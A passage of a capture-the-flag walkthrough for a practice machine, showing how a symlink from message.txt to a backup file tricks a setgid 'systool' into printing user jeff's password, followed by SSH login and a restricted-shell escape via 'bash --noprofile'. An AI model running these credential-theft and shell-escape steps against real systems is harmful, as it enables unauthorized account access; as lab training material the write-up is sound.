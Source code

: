 Okay what we can see is option 2 reads the file from `message.txt`

So how can we exploit it to give us password of jeff?

We can delete the message.txt and link the `/opt/backups/jeff.bak` to `message.txt` and when the tool runs it tries to read the file from `jeff.bak`and displays whats inside .

Let's try out

```console
backupmgr@tryharder:/opt/systools$ rm message.txt 
backupmgr@tryharder:/opt/systools$ ln -s /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ls -la
total 28
drwxrwxrwx 2 jeff      jeff       4096 Sep 26 11:34 .
drwxr-xr-x 4 root      root       4096 May 24 13:13 ..
lrwxrwxrwx 1 backupmgr backupmgr    21 Sep 26 11:34 message.txt -> /var/backups/jeff.bak
-rwxr-sr-x 1 jeff      pwman     17160 May 24 13:18 systool
backupmgr@tryharder:/opt/systools$
```

```console
backupmgr@tryharder:/opt/systools$ ./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2

Your Password is: [REDACTED]
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option:
```

There you go.. 

We know `ssh`  is open . Let's ssh into `jeff@jeff.thm` with the above creds

Listing out the files there's `user.flag` which is our first flag. Also you need to md5 the inside content to upload it. i will leave this to you

***

## Privilege Escalation

It's really easy to escalate to root.

But the issue is `jeff` is running on a restricted shell so we need to escape out of it

The one i used is

`ssh jeff@jeff.thm -t "bash --noprofile"`
